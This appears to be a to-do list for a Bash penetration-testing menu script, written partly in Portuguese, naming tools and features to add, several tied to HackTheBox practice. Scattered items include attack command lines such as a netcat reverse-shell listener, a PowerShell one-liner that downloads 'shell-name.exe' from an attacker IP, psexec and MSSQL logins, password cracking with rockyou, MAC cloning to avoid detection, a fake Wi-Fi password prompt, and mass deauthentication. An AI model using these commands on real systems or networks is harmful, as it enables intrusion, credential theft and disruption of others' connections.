 # Future Features

**This is the resource schedule, if you need something that is not on that list you have three options: 1 - You can request the resource for me, if it is a good idea I will implement it, but at the end of the task list . 2 - If you need urgency, you can write the code and send it to me. 3 - Pay me to implement the feature.** <br/>

        0.0. O menu do change mac adress não esta fucnionando corretamente corrige lá
        0.1. Revisa se esta funcionando certinho e altera de torghost para torghostNG. tem o comando que deve ser usado no notes
        1.1 Implementa o Jhon The reaper aqui no codigo, tem a logica no notion
         2 - Muda todas as vezes que preciso solicitar uma placa de wifi para o nome que vem da função selectedwificard
         9 - Estuda e implemneta nmap
         9.1 Faz uma opção no nmap com vull script like sudo nmap -sS --script vuln -vv www.siteemquestao.com.br
         10 - Faz um menu para ganhar acesso powershell em windows usando o comando a seguinr  \psexec.py administrator@10.10.10.27\" tem um exemplo no primeior hack do hackthebox "
         10.1 - Revist the script, read the script from the top to the begining and see what can be done better
         11 - Faz um menu pra conectar no msql usando o padrao acima, sendo que o login é o começo o ip é o do servidor mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
         12 - Um menu para criar um webserver temporario usando python ---- sudo python3 -m http.server 80
         13 - Muda todas as variaveis para minuscula é uma boa pratica pois variaveis do sistema são em maiuscula
         14 - Faz um menu pra dar start no metaspoit: msfdb int .... msfconsole
         15 - Add -vv para todos os comandos nmap do script pra poder acompanhar em tempo real
         16 - Cria um menu para bruteforce e dentro do menu na hora que escolhe faz uma observação em cima como uma opçoa 0 por exempol ocrito 0 - OBS! If you need to scan a dns or vhost there is a alwsome tool called GoBuster, study.
         17 - Estuda e coloca um menu pra dar airodump que exibe as conexões, se não me engano é sudo irodump-ng wlan0 mas testa e acho que precisa colocar em modo monitor também usando o airclack ou algo assim
         18 - Implementa o Hydra, é uma exelente ferramenta de bruteforce, já tem no notes uma logica de programação
         19 - Coloca o dirsearch para rodar como sudo, pois assim consegue salvar logs normalmente, pois esta sem permissõa
         20 - tem umas opções mais completas no dirsearch como por exemplo usar uma lista de extenções, que deve ser tipo cvs, além de outras coisas, como recursivo ou nao e o nivel de recursividade, coloca no codigo, estuda melhor e planeja pra diexar o mais completo possivel
         20.1 - Revist the script, read the script from the top to the begining and see what cam be done better
         21 - subistituo onde esta test por [[ comand ]] é um jeito melhor de se fazer e o outro jetio esta obsoleto
         22 - estuda o crunch e implementa no script é um otimo programa para gerar listas de senhas para quando precisar descobrir uma senha mas já tem um padrão em mente
         24 - Sera que este é o mlehor jeit ode fazer menu possivel? Vis sobre a possibilidade de usar o comand select do bash, da uma estudada nisso, pode ser uma boa tem mais aqui https://wiki.bash-hackers.org/syntax/ccmd/user_select
         27 - Eu não sei se é possivle, mas se for que tal dar uma estudada no pyshark? e implentar aqui em um script de bash, é possivel ou so quando este script mudar pra python?
         28 - Implement patetor? it is a best tool? then Hydra? Search more.
         29 - Implement study mor about reponder.py, and add to the script a method to crack a password using jhon the reaper Faz um menu para o jhon the reaper john SMB-NTLMv2-SSP-192.168.100.101.txt –wordlist=/usr/share/wordlists/rockyou.txt porque é relacionado ao responder.py
         30 - Tem algum jetio de colocar romandos pra rodar no metasploit por aqui? seria sensacional, ai conforme eu for aprendendo eu vou adiciondo, tambem tem a questão que tira pra aprender bem e se possivel até fazer um curso de metasploit é uma ideia exelente, planeja melhor
         30.1 - Revist the script, read the script from the top to the begining and see what cam be done better
         31 - Create a function to check if a program is instaling before runnning and if not instaled then ask to install, and apply to all my tools in this script
         32 - Study and implement hashcat
         32 - Create a Function who: 1 - you imput an wifi nam 2 -  the coputer clone that mac adress from the AP to avoid detection, 3 - Show options to crack that wifi, like: Show a fake iput from password, and automated tools using weakness
        34 - Replace all echos for printf, its better
        35 - See how i avoid to use eval, its too bat for security
        36 - Study and implement a funciontion using curl, there so much good about, like set and get cookieas, or send post, is very versatile
        38 - Study and implement an script using WinPEAS.exe, maybe an bat? to automatize? and also WinPEAS.py to check for vulns in linux
        39 - Study Msfvnom and implement, it is an excelent payload generator[:]
        40 - Study and implent rlwrap nc -lnvp 4444 its realy good to reverse shells and study about the rlwarp ok? to understend perfectly. Maybe using pwncat?
        40.1 - Revist the script, read the script from the top to the begining and see what cam be done better
        41 - Create a menu with util stuff, like "powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')" this is for download archives using powrshell
        42 - Put in dirsearch an option to save the output, its awsome to CTFs  and reports
        43 - study the best directory wordlist, to use in dirbuster or afuzz, or another tool
        44 - Study and implement wpscan, its a good tool to break into wordpress sites
        45 - Cretate a menu who check if two ips are in them same network. This same menu can, calculate things like, create networks for ips, like: i need 2 networks with a minimum 200ips, or i need an netsplit a network in 3 other networks, things like this. And print a tamble explaining the result showing the binaries in colours. There some creat linux tools for this maybe only implement is suficient
        46 - Study and implement rustscan, its a realy good tool. There is a github repository
        47 - Sudy and inplement inplement  One-Lin3r its a realy good tool to acelerate the process of geting reverse shells, and other scripts
        48 - Migrate the Script to Python, sarch for a method to run bash code inside python an migrate gradually if possible, if not, than create an second script and start the developmenti
        49 - Create a Function who update the script with the last features implemented in the github version
        50 - Revist the script, read the script from the top to the begining and see what cam be done better
        53 - If don't exist yet, make an script to automate deauth all dispositives in an network, maybe in more than one if possible
        54 - Organize the menu in a better way, is too confuse
        55 - Implement a flag to disable the notification "command will running in 5 seconds, or even change the time"
        56 - Study massscan, its good for mass scaning ports, or rustscan? What is better?
        57 - Add an option to windows tools, like mimikatz and think if only show then or run then, i think run its better, butt tike about
        58 - Study and implement msfvenom its a great tool to make palyloads
        59 - Study and implement nikto
        60 - Revist the script, read the script from the top to the begining and see what cam be done better
        62 - Study and implement termshark, its good to see pcaps in terminal
        63 - Study and implement FFUF, its really fast because its in go
        64 - Implement option so search ".bak" in in websearches, it really good to see some codes
        65 - Study and implement Uchecker, its a good tool to check for not uptodate tools on servers
        66 - Study and implement Snort, its a preaty good to to check for viruses in network, its good for networks and home users
        77 - Remove cpf generator, there is better tools online
        78 -  Study and implment sublist3r, its a really great scanner for subdomains ussing ossint
        79 - Study and implement pwncat, its a really great reverse shell hander, is the one by calleb stuart, not the other
        80 - Revist the script, read the script from the top to the begining and see what cam be done better
        81 - Study and implment nikton its a good webscaner
        82 - Study and implment social engenner tookit, its really god to work with social engineer
        83 - Change DirBuster by Gobuster? Search more about... Gobuster has more users, maybe its better? actualy is more faster than dirbuster, so thats is what matter
        84 - Implement wfuzz its preaty great
        85 - Study and Implement Sqlmap
        86 - Implement te 'sectlist' program from kali, its a copy for the repository on github. Maybe a menu here or an option to use in the aplications who neded, also study what is the best wordlists for who?
        87 - Study and implent enum4linux, its preaty good to use to enumerate samba shares
        88 - Create an option to disable showing comands after runnning. Maybe a flag before ruing? like BRHackTools -noverbose
        89 - Study and implement sherlock, its a great tool for OSINT
        90 - Revist the script, read the script from the top to the begining and see what cam be done better
        91 - Study and implement airgedon its good to do deauth atacks in softwarey
        92 - What i can do to make this script more beautiful? Maybe some colors or ident?
        93 - Maybe Implement RustScan? Its so fast
